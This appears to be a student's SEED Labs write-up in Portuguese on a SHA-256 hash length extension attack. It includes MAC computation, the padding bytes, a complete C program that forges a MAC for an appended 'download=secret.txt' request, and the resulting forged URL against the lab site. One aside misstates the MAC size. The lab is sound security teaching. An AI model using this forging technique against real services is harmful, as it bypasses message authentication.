



# Guião Semana #10 (Hash Length Extension)

## Tarefa 1

Começamos por escolher os parâmetros a utilizar:
- myname = MiguelNeri
- uid = 1002  ->  key = 983abe

E concatenamos a key com a mensagem a autenticar: 
**Key:R = 983abe:myname=MiguelNeri&uid=1002&lstcmd=1**

Calculamos assim o MAC com o seguinte comando:
```$ echo -n "983abe:myname=MiguelNeri&uid=1002&lstcmd=1" | sha256sum```

E obtemos:
```f4fecb2eafd9f3747364d74d20969ea502930654cd2bacb73b49edb0acaf0d2a  -```

Agora, com todos os parâmetros montamos o URL (***http://www.seedlab-hashlen.com/?myname=MiguelNeri&uid=1002&lstcmd=1&mac=f4fecb2eafd9f3747364d74d20969ea502930654cd2bacb73b49edb0acaf0d2a***) e podemos observar que o MAC é válido e como é que o sistema se comporta:



Exemperimentamos também colocar um MAC incorreto e observamos que o sistema acusou o erro:



## Tarefa 2

A nossa mensagem é **M = "983abe:myname=MiguelNeri&uid=1002&lstcmd=1"**. O seu tamanho é 42 bytes e por isso o padding tem 64 - 42 = 22 bytes, incluindo já os 8 bytes do length field. O tamanho de M em termos de bits é 42 * 8 = 336 = 0x150.

Construimos então o padding, começando por um byte \x80 e terminando com os bytes \x01\x50 (length field em Big-Endian), sendo que entre estes são adicionados \x00 até preencher o tamanho total de 22 bytes. Ficamos assim com:
```\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x50```

Para converter o padding para o formato URL bastou trocarmos \x por %, ficando assim com:
```%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%50```


## Tarefa 3

Começamos por construir o código length_ext.c como indicado no guião, alterando:
- Os parâmetros das chamadas à função htole (8 bits cada) para corresponder ao MAC (8*8=64 bits em Big-Endian) calculado na tarefa 1
- O "Extra message" para aquilo que queremos adicionar ao comando, ou seja, "download=secret.txt"

Ficamos assim com o seguinte código:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char*argv[]){
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;SHA256_Init(&c);
    
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);
    
    // MAC of the original message M (padded)
    c.h[0] = htole32(0xf4fecb2e);
    c.h[1] = htole32(0xafd9f374);
    c.h[2] = htole32(0x7364d74d);
    c.h[3] = htole32(0x20969ea5);
    c.h[4] = htole32(0x02930654);
    c.h[5] = htole32(0xcd2bacb7);
    c.h[6] = htole32(0x3b49edb0);
    c.h[7] = htole32(0xacaf0d2a);
    
    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);
    
    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
```

Compilamos e corremos o programa utilizando os comandos:
```
$ gcc length_ext.c -o length_ext -lcrypto
$ ./length_ext
```

E obtivemos o novo MAC:
```3f92130ed37aa55f4c434b1fab984900344ca8535e279bc8880de85f38b4863d```


Assim, construimos o novo URL (no formato ```http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>```) e obtivemos:
http://www.seedlab-hashlen.com/?myname=MiguelNeri&uid=1002&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%50&download=secret.txt&mac=3f92130ed37aa55f4c434b1fab984900344ca8535e279bc8880de85f38b4863d

Inserindo este URL conseguimos ver que conseguimos criar efetivamente um MAC válido para um pedido, sem utilizar a chave secreta para calcular o hash do mesmo.


Fomos assim bem sucedidos na nossa tentativa do length extension attack que foi apresentado na aula teórica, o que permite que qualquer pedido autenticado seja estendido para uma autenticação válida, mesmo sem conhecer a chave secreta!